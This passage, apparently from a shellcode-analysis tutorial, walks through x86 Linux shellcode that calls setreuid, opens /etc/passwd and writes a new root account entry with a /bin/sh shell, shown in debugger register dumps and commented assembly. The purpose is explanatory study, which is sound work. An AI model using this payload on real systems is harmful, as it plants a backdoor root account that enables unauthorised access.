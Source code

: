 Here we can see EAX is populated with a 4 which is the write() syscall. Our open file descriptor is still in EBX from earlier. Our string to write is in ECX, along with its length (38) in EDX. 

Essentially our syscall looks like this:

```
write(3, "absolomb:Az3g.zbq9cr7c:0:0::/:/bin/sh" , 38)
```

## exit()

Our last section is fairly short and simple.

```nasm
push   0x1
pop    eax	
int    0x80	
```

```
----------------------------------registers-----------------------------------]
EAX: 0x1 
EBX: 0x3 
ECX: 0x40206b ("absolomb:Az3g.zbq9cr7c:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀")
EDX: 0x26 ('&')
ESI: 0x1 
EDI: 0xb7fa3000 --> 0x1b9db0 
EBP: 0xbffff388 --> 0x0 
ESP: 0xbffff35c ("/etc//passwd")
EIP: 0x40209d --> 0x80cd
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x402098 <code+88>:	int    0x80
   0x40209a <code+90>:	push   0x1
   0x40209c <code+92>:	pop    eax
=> 0x40209d <code+93>:	int    0x80
   0x40209f <code+95>:	add    BYTE PTR [eax],al
   0x4020a1:	add    BYTE PTR [eax],al
   0x4020a3:	add    BYTE PTR [eax],al
   0x4020a5:	add    BYTE PTR [eax],al
```


This last part is simply exiting the program, pushing the exit syscall (1) to the stack and popping it, then calling exit. The exit number stored in EBX really doesn't matter here so whatever is left from EBX is the code returned, which is a 3. 

```
exit(3)
```

## Final Commented Assembly

```nasm
xor    ecx,ecx			; set ecx to zero
mov    ebx,ecx			; move zero into ebx
push   0x46			; syscall setreuid
pop    eax			; move setreuid into eax
int    0x80			; execute setreuid
push   0x5			; syscall open 
pop    eax			; 
xor    ecx,ecx			; clear ecx to 0
push   ecx			; 0 to stack
push   0x64777373		; "dwss"
push   0x61702f2f		; "ap//"
push   0x6374652f		; "cte/"
mov    ebx,esp			; point to stack
inc    ecx			; 
```